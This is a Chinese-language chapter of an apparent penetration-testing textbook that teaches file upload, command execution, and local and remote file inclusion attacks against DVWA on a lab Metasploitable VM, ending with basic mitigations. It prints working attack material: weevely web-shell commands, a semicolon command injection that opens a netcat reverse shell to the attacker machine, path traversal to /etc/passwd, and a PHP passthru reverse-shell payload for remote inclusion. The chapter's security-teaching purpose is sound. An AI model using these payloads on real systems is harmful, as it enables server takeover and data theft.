# 第十九章：文件上传、代码执行和文件包含漏洞

本章将讨论不同的漏洞，并解释如何在 Metasploitable 机器上进行攻击。每个场景的详细说明将在本章涵盖。在每个部分的末尾，我们还将看到针对每个漏洞的快速解决方案。

本章将涵盖以下主题：

+   文件上传漏洞

+   代码执行漏洞

+   本地文件包含漏洞

+   基本的缓解措施

# 文件上传漏洞

在本章中，我们将了解文件上传漏洞。这是最简单的漏洞类型，因为它允许我们上传任何类型的文件。例如，如果目标计算机能够理解 PHP，我们可以上传任何 PHP 文件或 PHP Shell，从而完全控制目标计算机。

如果目标计算机或目标服务器支持 Python，我们可以直接上传 Python 代码或 Python Shell。我们可以使用 Veil-Evasion 或 Metasploit 来创建这些 Shell，或者我们可以使用自己的 PHP 或 Python Shell。

在接下来的部分，我们将了解一个名为 Weevely 的工具，它可以生成 PHP Shell，并允许我们获得访问权限，在目标计算机上执行一些很酷的操作。

# 开始使用 Weevely

当我们尝试进行网站渗透测试时，在使用任何工具或其他方法之前，先进行信息收集后浏览网站。先对网站有一个基本的了解，看看网站上安装了什么，并尝试利用其功能。

在浏览完该网站后，使用上传标签上传文件。该网站允许我们上传文件。有时在渗透测试任务中，可能会遇到一个允许我们上传个人头像的网页，或者一个允许我们上传汽车图片的机密网站：



如前面的截图所示，网站要求我们选择并上传一张图片。点击“浏览...”按钮选择任何图片，然后点击“上传”按钮上传图片。

我们现在可以看到，在下面的截图中，图片已成功上传：



它被放置在`../../hackable/uploads/image.jpeg`，这意味着回退两个目录，接着是文件名。

让我们看看图片是否真的上传了。我们将使用两个目录，漏洞目录（`10.0.2.4/dvwa`）和上传目录（`hackable/uploads/image.jpeg`）。我们使用这些目录只是为了确保图片被正确上传。一旦我们将目录添加到地址栏中，就可以看到图片已经成功上传：



接下来我们要做的事情是尝试上传一个 PHP 文件，为此我们将使用一个名为 Weevely 的工具。正如之前所说，要创建一个有效载荷或 shell，如果我们要这么称呼它（显然它将是一个 PHP shell），我们可以使用 Metasploit。为了创建一个 PHP 有效载荷，我们将使用一个专门用于 Web 应用渗透测试的工具。

它非常容易使用。首先，我们输入工具名称`weevely`并添加`generate`，因为我们想要生成一个有效载荷或 shell 文件。然后我们为文件设置一个密码，这样只有我们能访问并控制该网站。正如下面的代码段所示，密码是`123456`，并且我们希望将其存储在`/root`位置，命名为`shell.php`。命令如下：

```
weevely generate 123456 /root/shell.php
```

所以，`weevely`是程序的名称，`generate`是用来生成 shell 的命令，后面跟着密码，用于身份验证，并存储在`/root/shell.php`位置。

按下*Enter*键并创建它。如下面的截图所示，文件已在指定位置生成：



现在回到 DVWA 网站，按照上传图片的方式上传`shell.php`文件。我们只需运行以下命令：

```
weevely http://10.0.2.4/dvwa/hackable/uploads/shell.php 123456
```

这个过程类似于多重处理器等待与后门的连接。我们正在连接我们上传的后门，我们可以在下面的截图中看到我们已经进入了文件系统：



使用`weevely`，我们可以输入任何 Linux 命令，这些命令将在目标计算机上执行，并且我们可以看到结果。如果我们输入`pwd`，我们将看到`/var/www/dvwa/hackable/uploads`位置，如果输入`id`，我们将看到用户是`www-data`。如果我们输入`uname -a`，为了确认这是 Metasploitable 机器，它将给出如下输出：



我们可以做任何想做的事情：列出文件，进行导航；我们可以执行任何想要的 Linux 命令。Weevely 还提供了更多功能。如果我们输入`help`，我们将能够看到 Weevely 的更多功能。我们可以尝试提升权限，执行 SQL 查询，还有许多专为 Web 应用渗透测试设计的酷炫功能。

# 代码执行漏洞

这种类型的漏洞允许我们在目标服务器上执行**操作系统**（**OS**）代码。如果目标服务器使用 Windows 系统，我们将能够执行 Windows 命令。如果它使用 Linux 系统，我们则能够执行 Linux 命令。

这是一个关键性漏洞，它允许攻击者对目标服务器做任何他们想做的事情。我们可以使用 `wget` 命令上传 PHP Shell，或者通过 `wget` Linux 命令上传负载文件或病毒。我们只需要确保我们上传到一个允许写入的文件或目录中。

利用这个漏洞的另一种方式是直接运行操作系统命令，通过这些命令获取反向 Shell。我们可以运行操作系统命令，以及操作系统支持的编程语言，尝试在我们的计算机上获得反向连接。

假设我们正在浏览，点击 DVWA 中的命令执行选项卡，进入文本框网页，它会免费执行 ping。我们应该始终尝试实验我们看到的输入框，尝试查看该输入框的作用，能注入什么内容，以及我们可以做些什么来启动黑客攻击。

比如，这个输入框要求我们执行 ping 操作，如果我们输入一个 IP 地址，比如 `10.0.2.15`，然后点击提交。我们可以在下方截图中看到 ping 的结果：



我们可以在 Linux 系统中查看 `ping` 命令的执行情况。现在让我们看看是否能利用它，实际执行 `ping` 命令。

如果它接受我们输入的内容，然后执行 `ping` 命令，我们该如何利用这个漏洞呢？

在 Linux 和基于 Unix 的系统中，我们可以使用分号（`;`）符号在一行上执行多个命令，例如 `10.20.14.203;`。

如果我们尝试在终端中写入这个命令，首先输入列出命令 `ls`，然后输入 `pwd`，表示当前工作目录。所以，如果我们写 `ls;` 后跟 `pwd`，它会同时执行这两个命令，并显示工作目录。



这次，我们将在 IP 地址旁添加 `pwd`。下面是它的样子：

```
10.0.2.15; pwd
ping 10.0.2.15
```

现在我们来看一下执行过程是什么样的。返回到 DVWA 服务器，在地址栏输入 `10.0.2.15; pwd`，然后点击 `submit`。这张截图展示了我们当前工作目录的位置（`var/www/dvwa/vulnerabilities/exec`）：



它清楚地标明了输入的 `pwd` 被执行了，这意味着我们可以输入任何命令，它都会被执行。

从本书的 GitHub 仓库下载 `code-execution-reverse-shell-commands.txt` 资源文件，其中包含通过命令从目标计算机获取反向连接的命令。这里有一些命令可以帮助我们建立反向连接，所有命令都取决于编程语言。我们有 PHP、Ruby、PERL 和 BASH 的命令。

BASH 是 Linux shell 命令语言，因此所有 Unix 操作系统都能够执行 BASH 命令。`bash`命令应该在大多数基于 Unix 的系统上都能够运行。再次强调，大多数用户会使用 Python 和 Netcat。在本章中我们将使用 Netcat。

在开始之前，我们将像之前使用 Metasploit 进行多处理一样监听连接。我们可以使用多处理程序来监听连接。Netcat 只是一个工具，允许我们监听和连接计算机。使用以下命令：

```
nc -vv -l -p 8080
```

`8080`是端口，`nc`是程序，`vv`用于查看详细输出。我们可以检查输出并查看是否出现任何问题。`-l -p`命令在`8080`上用于监听。按下*Enter*，我们将能够看到以下消息：



下一个命令将帮助我们使用 Netcat 将 Web 服务器连接回我们的计算机。因此，让我们假设 Web 服务器上有 Netcat，并检查它的工作原理。

参考`code-execution-reverse-shell-commands.txt`文件中的 Netcat 命令，其中写有所有命令。以下是命令：

```
nc -e /bin/sh 10.0.2.15 8080
```

如图所示，我们将使用`/bin/sh`，设备的当前 IP，攻击者设备，然后是端口。在我们的情况下，将是`10.0.2.14 8080`。

复制命令并将其粘贴到 DVWA 服务器的地址栏中，以便执行`pwd`命令。之前使用的命令是`10.0.2.15; pwd`。但现在让我们尝试删除`pwd`然后粘贴代码。以下是命令：

```
10.0.2.15; nc -e /bin/sh 10.0.2.15 8080
```

这个 IP 首先将 Web 服务器连接回 Kali 机器，然后再连接到攻击者机器：



返回终端，我们将看到从`10.0.2.15`到`10.0.2.4`的连接调用，并且我们将再次添加`pwd`，`ls`和`id`。如截图所示，当我们插入`id`命令时，我们将得到`www-data`，然后我们可以添加`uname`来确认是否是 Metasploitable。以下是展示这些信息的截图：



我们可以在目标计算机上运行任何命令并访问目标计算机。

# 本地文件包含漏洞

本地文件漏洞或漏洞允许我们读取与漏洞相同服务器中的任何文件；即使文件存在于`/var/www`目录之外，我们也能够读取其中的信息。

漏洞是关键的，因为我们可以读取任何文件，比如重要文件或密码文件。此外，如果同一服务器上有许多网站，我们设法找到一个我们不针对的网站，那么我们可能能够访问与我们针对的网站相关的文件，然后进一步从那里利用该网站。

我们将通过 URL 利用此漏洞。因此，通常在我们的代码执行示例中，我们会在文本框中编写代码。有时，我们可能会在 URL 中发现代码漏洞，通常会包含 `cmd` 这样的关键字。

之前的流程继续。点击 DWVA 服务器上的文件包含选项卡，得到的 URL 为 `http://10.0.2.4/dvwa/vulnerabilities/fi/?page=include.php`。

我们可以看到该文件已经有一个页面。`include.php` 命令将再次加载另一个页面。如同之前的示例，我们将再次看到带有 IP 地址的 URL 和相同的 `ping` 命令，正如前一部分所解释的那样。在我们的示例中，目标是通过 `include.php` 打开文件。去掉 URL 中的 `page` 参数后，URL 现在变为 `http://10.0.2.4/dvwa/vulnerabilities/fi/include.php`。此时会产生一个致命错误，如下图所示：



我们可以在页面上看到一个名为 `include.php` 的文件，它位于相同的工作目录中。让我们尝试查看能否读取存储在计算机上的 `/etc/passwd` 文件。这个文件包含当前 Web 服务器上的所有用户密码以及所有使用当前操作系统的用户。让我们打开终端并运行一些命令。例如，在 Kali 上运行 `cat/etc/passwd` 返回如下输出：



我们将看到当前计算机上的所有用户及其在当前操作系统上的默认路径。现在我们将尝试读取 `passwd` 文件。为此，请返回到之前提到的 `fi` 目录中的当前位置。参照之前的截图，当我们位于 `/var/www/dvwa/vulnerabilities/fi/include.php` 时，我们就在 `fi` 目录下；我们需要返回五个位置，才能到达 `/etc/passwd`。

如前所述，我们需要通过添加双点符号返回五个位置。因此，URL 会变成 `http://10.0.2.4/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd`。按下 *Enter* 键后，输出将如下所示：



我们将能够看到 `/etc/passwd` 文件。为了理解并读取数据，可以将数据复制到记事本中。这样，我们将获得更多关于目标网站的信息。我们还可以访问同一服务器上不同的敏感文件，或者其他网站的文件。下一部分将帮助我们理解如何使用 Metasploitable 进行远程文件包含。

# 使用 Metasploitable 进行远程文件包含

远程文件包含是一种利用文件包含漏洞的特殊方式。在前一部分中，我们学习了如何将文件包含到服务器中，以及如何通过本地文件包含漏洞进行访问。

在本节中，我们将学习如何配置服务器以允许`allow_url`和`allow_url_fopen`函数。这将允许从计算机向目标网站包含文件。我们将学习如何将 PHP 文件注入到目标计算机中，这将帮助我们运行有效载荷和反向 shell 以及系统命令，从而允许访问目标或完全控制目标服务器。

让我们从利用上一节讨论的文件包含漏洞开始。我们将在这里使用相同的`page`参数。这里唯一不同的是从本地文件包含转变为远程文件包含。这将确保本地文件包含允许访问本地文件，而远程文件包含将允许访问和注入远程文件。

让我们使用 Metasploitable 框架测试漏洞。在框架中，我们将使用存储在文件中的 PHP 设置。为了访问它们，我们将使用`nano`，这是一个文本编辑器。我们需要在`nano`编辑器中输入配置文件的位置，即`/etc/php5/cgi/php.ini`。`/etc/php5/cgi`是我们的 PHP 配置文件实际位置。我们需要将`sudo`添加为 root。在 Kali 中，我们不需要添加`sudo`，因为我们以`root`身份登录，但在 Metaspolitable 中，我们需要添加`sudo`来执行`root`操作。在将`sudo`添加到当前命令后，运行以下命令：

```
sudo nano /etc/php5/cgi/php.ini
```

如果我们想要搜索`allow_url_fopen`函数，按*Ctrl* + *W*，然后输入`allow_url`并按*Enter*。我们将看到`allow_url_fopen`和`allow_url_include`都是`On`：



如果我们启用这两个函数，则可以使用本地文件包含漏洞进行远程文件包含。要退出当前操作，请使用*Ctrl *+ *X;*保存，请使用*Ctrl* + *Y*和*Enter*。保存文件后重新启动 Web 服务器，输入`sudo /etc/init.d/apache2 restart`。

我们了解了本地文件包含漏洞的工作原理。我们使用了五个空格后退的方法来访问`passwd`文件。在远程文件包含中，我们将访问位于不同服务器上的文件。

现在我们将在实际的 Web 服务器上进行渗透测试，以便访问存储的文件。该文件应该有一个 IP 地址或域名。我们需要在本地服务器上运行此操作，并使用`10.0.2.15`在 Kali 机器的 Web 服务器上存储文件，在我们的情况下。该文件可以是 Web shell 或有效载荷。现在创建一个简单的 PHP 文件。我们将使用`passthru()`函数，该函数将在 Windows 和 Linux 上执行 OS 命令。将要执行的命令完全取决于将要执行的 Web 服务器。创建一个名为`reverse.txt`的文件，其中包含以下代码：

```
<?php
passthru("nc -e /bin/sh 10.0.2.15 8080");
?>
```

我们将使用用于代码执行漏洞的`nc`命令，该命令允许我们从目标获取连接或反向连接。

代码以`<?php`和`?>`标签开始和结束。命令将放置在引号之间。由于我们使用的是相同的`nc`命令，它将反转计算机的连接。下一步是将该文件存储在 Web 服务器上。如果目标是远程 Web 服务器，我们应该使用 IP 来存储文件，以便从远程 Web 服务器访问该文件。我们将使用 Metasploitable 机器访问该文件，Metasploitable 将访问存储在 Kali 机器上的文件。这是可能的，因为文件和机器在同一网络上。当前文件以`/var/www/html`开头，因此文件将存储在 Kali 上，而不是 Metasploitable 上。为了反向访问，我们将把文件保存为`.txt`而不是`.php`。如果我们将文件存储为 PHP，它将在 Kali 机器上执行。如我们所知，我们已经能够访问 Kali 机器，并且需要访问 Metasploitable 上的文件。为此，我们将把文件保存为`reverse.txt`，并放置在`localhost`的`/var/www/html`目录中。该文件仍然存储在`localhost`而不是 Metasploitable 上，所以它位于`10.0.2.15`。要检查`reverse.txt`文件是否在`localhost`上，请在地址栏中输入`localhost/reverse.txt`并按*Enter*。该文件将在浏览器中显示：



在开始远程包含之前，请像在*代码执行漏洞*部分那样，在 Kali 上监听连接。输入以下`nc`命令以监听连接：

```
nc -vv -l -p 8080 
```

现在我们应该在监听连接，如下图所示：



现在，我们将不再将文件包含在同一服务器上，而是将远程文件包含在 URL 中。URL 更改为`http://10.0.2.4/dvwa/vulnerabilities/fi/?page=http://10.0.2.15/reverse.txt`，如下图所示：



如果我们现在检查文件，它将在`10.0.2.15`上执行，这将为我们提供与 Metasploitable 计算机的远程连接。返回到终端，输入`uname -a`，我们将现在获得对 Metasploitable 机器的完全访问权限，如下图所示：



我们还可以在 Metasploitable 机器上执行诸如`ls`和`pwd`的命令。

# 基本缓解

本节讨论了漏洞的预防措施。许多漏洞的存在是由于它们提供的功能。

例如，在第一部分，*文件上传漏洞*，我们讨论了允许上传任何文件扩展名的情况。理想情况下是检查文件类型，如果用户上传的是文件，它应该是 MP3 或媒体文件，而不是 PHP 文件或可执行代码。我们永远不应允许用户上传可执行文件。可以使用过滤器检查扩展名。最好的方法是检查文件本身，而不仅仅是检查扩展名，因为文件可以绕过扩展名检查。检查图片或媒体文件，而不是依赖扩展名。

在第二部分，*代码执行漏洞*，我们探讨了如何在目标计算机上运行任何代码。我们应该避免允许用户在服务器上运行代码。同时，也要避免使用`eval`和`passthru`等功能，这些功能允许用户在服务器上运行操作系统代码。如果必须使用这些功能，请在执行之前分析输入。

比如看这个例子：

```
10.0.2.15; ls-la
```

假设我们输入一个 IP 地址，`10.0.2.15`，然后加上分号和命令`ls -la`。唯一的问题是，Web 应用程序会按原样接受并运行这些信息。当我们执行命令时，我们将首先看到 IP 地址，然后是`ls -la`命令。在这种情况下，检查输入的内容。如果我们期望的是 IP 地址，可以使用正则表达式。正则表达式是一条规则，确保输入符合`10.0.2.15`的格式。如果输入任何其他内容，Web 应用程序将拒绝它。我们还应该确保没有分号或空格，并且所有内容都是一体化的并得到执行。这些都是安全的执行方法，但最好的做法是避免使用`eval`和`passthru`函数。

第三部分讨论了文件包含问题，进一步分为本地和远程文件包含。本地文件包含允许我们包含目标系统上的任何文件，并读取由漏洞泄露的文件。我们还研究了远程文件包含，允许我们从拥有 PHP Shell 的 Web 服务器中包含任何文件，并获得与目标计算机的连接。

我们需要防止远程文件包含，以确保人们无法包含我们服务器之外的文件。我们可以通过禁用`allow_url_fopen`和`allow_url_include`功能，在`php.ini`文件中启用此方法。要禁用这些功能，请按照*远程文件包含使用 Metasploitable*部分中的步骤进行操作。

确保`allow_url_fopen`和`allow_url_include`的设置为`Off`：



另一种防止这些漏洞的方法是使用静态文件包含。因此，取代使用我们已见过的动态文件包含，我们可以将希望包含的文件硬编码到代码中，而不需要通过`GET`或`POST`获取它们。

例如，在漏洞案例中，我们使用了带有`page`参数的`index.php`页面。现在，`index.php`页面使用了`include`参数，或者另行调用一个名为`news.php`的页面，这个页面将被包含在代码中的`$_GET();`参数中。以下截图解释了该漏洞：



基本的操作是`include`在`page`参数之后的文件。代码会动态地获取 URL 中`page`参数之后的文件，并`include`从 URL 到当前页面的所有内容。在某些情况下，我们倾向于使用`POST`方法，这样不会执行相同的操作；然而，在这种情况下，最好使用代理，如 Burp Proxy。它将帮助我们进行修改并包含我们希望展示的文件。通过这种方法，我们无法操作被包含页面内部的任何内容。为了避免硬编码并防止使用变量，只需提供需要包含的页面。这会使代码看起来更长，但页面会更加安全。

以下截图展示了更简单的硬编码方法：



# 总结

在本章中，我们学习了如何使用文件漏洞进行基本的文件上传。我们还研究了如何在代码漏洞下执行操作系统代码。此外，我们学习了如何使用 Metasploitable 进行本地和远程文件包含。最后，我们了解了在处理这些漏洞时应考虑的解决方案要点。下一章将深入探讨 SQL 注入漏洞。
